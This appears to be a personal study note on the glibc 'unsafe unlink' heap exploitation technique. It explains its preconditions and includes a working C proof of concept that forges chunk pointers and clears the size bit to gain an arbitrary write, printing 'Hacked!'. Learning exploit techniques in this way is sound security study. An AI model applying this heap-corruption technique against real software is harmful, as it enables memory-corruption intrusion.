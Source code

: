 # Unsafe `unlink`
> LongChampion, 13/03/2020

The source code in this repository and an explantation at [Heap Exploitation](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit.html) have descript all about this attack. So I will not try to make the description better here. Instead, I will write down some note about it:
- The size of chunk used in this attach must larger than MAX_FASTBIN_SIZE (0x80 on x64 system, 0x40 on x86 system)
- This is the fact that, field `pre_size` of the second chunk is belong to the first chunk, you can overwrite it freely.
- The `size` field of the second chunk is harder to control: it can't be directly access from both first chunk and second chunk. But we only want to set the last bit of `size` to zero, it can be easily done by an `off by one` error. However, in this case, the size of both chunk must be multiples of 0x100.
Look at my code:
```
#include <stdlib.h>
#include <unistd.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

const long long SIZE = 0xf0;

int main()
{
    char data[8] = "Hello!";
    void *first = malloc(SIZE);
    void *second = malloc(SIZE);

    struct Chunk *FAKE = (struct Chunk *) first;
    FAKE->fd = (struct Chunk *) (&first - 3);
    FAKE->bk = (struct Chunk *) (&first - 2);

    struct Chunk *secondHeader = (struct Chunk *) (second - 2 * 8);
    secondHeader->pre_size = SIZE;
    secondHeader->size &= ~0xff;

    free(second);
    *(long long *) (first + 3 * 8) = (long long) &data;
    *(long long *) first = 0x0a2164656b636148;

    write(1, (char *) data, 8);
}
```
At this time, you can understand all the code above. I set `SIZE = 0xF0` so that when I call `malloc(SIZE)`, it will return a chunk of size 0x100. And when I clear the last byte of `size`:
> `secondHeader->size &= ~0xff;`

the `size` is changed from 0x101 to 0x100 (chunk size unchanged!)  
You can set `SIZE` to 0x1F0, 0x2F0, etc... and this code still print *Hacked!* to your screen.